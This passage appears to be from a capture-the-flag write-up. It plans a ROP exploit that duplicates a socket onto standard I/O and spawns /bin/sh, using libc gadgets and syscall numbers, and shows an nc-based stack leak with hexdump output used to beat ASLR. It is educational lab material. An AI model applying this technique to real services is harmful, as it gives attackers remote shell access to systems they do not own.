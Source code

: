 
## Exploit plan

In this challenge, we will use the `dup2()` trick.

First we will duplicate the socket descriptor into the standard file input/output
file descriptors (0, 1, 2). After that we will execute `/bin/sh` by using `execve()`.

Code we will execute:
- dup2(x, 0)
- dup2(x, 1)
- dup2(x, 2)
- execve(&"/bin/sh", &0, &0)

So, what do we need:
- Client socket number (x)
- dup2() system call nr
- execve() system call nr
- pop rax gadget (syscall nr)
- pop rdi gadget (first argument)
- pop rsi gadget (second argument)
- and also: A memory address with a zero 64 bit value for execve's other arguments

A bit of internet research resolves the system call numbers:
- dup2(): 33
- execve(): 59


An additional problem is, that the binary does not contain the necessary gadgets. 
We will take the gadgets from the LIBC, but as ASLR is turned on, we need to exploit information leak first. 

The string `/bin/sh` is already stored in LIBC too. 


## Information leak

When connecting to the port, the server will immediately dump 32 bytes of
its stack:
```
~/challenges/challenge17$ nc localhost 5001 | hexdump -C
00000000  00 00 00 00 00 00 00 00  b0 72 ab a0 fc 7f 00 00  |.........r......|
00000010  35 14 40 00 00 00 00 00  a8 73 ab a0 fc 7f 00 00  |5.@......s......|
00000020  95 14 40 00 01 00 00 00  00 00 00 00 00 00 00 00  |..@.............|
00000030  00 00 00 00 10 00 00 00  02 00 ec 38 7f 00 00 01  |...........8....|
00000040  00 00 00 00 00 00 00 00  00 00 00 00 04 00 00 00  |................|
00000050  03 00 00 00 89 13 00 00  50 14 40 00 00 00 00 00  |........P.@.....|
00000060  0a 7d d3 39 7d 7f 00 00  a8 73 ab a0 fc 7f 00 00  |.}.9}....s......|
00000070  e9 75 ab a0 01 00 00 00  7f 13 40 00 00 00 00 00  |.u........@.....|
^C
```

The first three elements:
* 0x00: 00 00 00 00 00 00 00 00: long int ret = 0
* 0x08: b0 72 ab a0 fc 7f 00 00: probably SBP, 0x7ffca0ab72b0: A stack address
* 0x10: 35 14 40 00 00 00 00 00: probably SIP, 0x401435: A code address
